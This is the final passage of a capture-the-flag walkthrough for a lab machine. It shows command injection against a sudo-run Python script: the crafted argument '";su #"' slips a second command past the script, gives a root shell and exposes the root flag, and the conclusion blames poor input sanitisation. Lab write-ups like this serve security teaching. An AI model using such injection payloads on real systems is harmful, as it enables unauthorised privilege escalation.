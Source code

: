 We can see that the ```whomai``` command passed here was executed  this is because the ```;``` closes the actual command and the ```#``` comments anything after our injected command hence whoami can be executed peacefully. We can use this to obtain a root shell and read the flag by executing the su command.
```bash
carlos@literal:~$ sudo /opt/my_things/blog/update_project_status.py '";su #"' 'To do'
[+] Before update project (";su #")

ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1
root@literal:/home/carlos# ls /root
root.txt   <SNIP>
```

## Conclusion

Congratulations! In this walkthrough, you have exploited an SQL injection vulnerability to enumerate a system a system and found a hidden domain a normal fuzzing could not uncover. Finally, you have exploited the same password syntax usage to obtain a foothold on the target and obtain root access due to the bad implementation of Python modules and lack of sanitisation of user input. This machine was designed to show how improper sanitisation of user input either in web applications or in scripts could seriously affect the security posture of an organisation. Thank you for following up on this walkthrough.
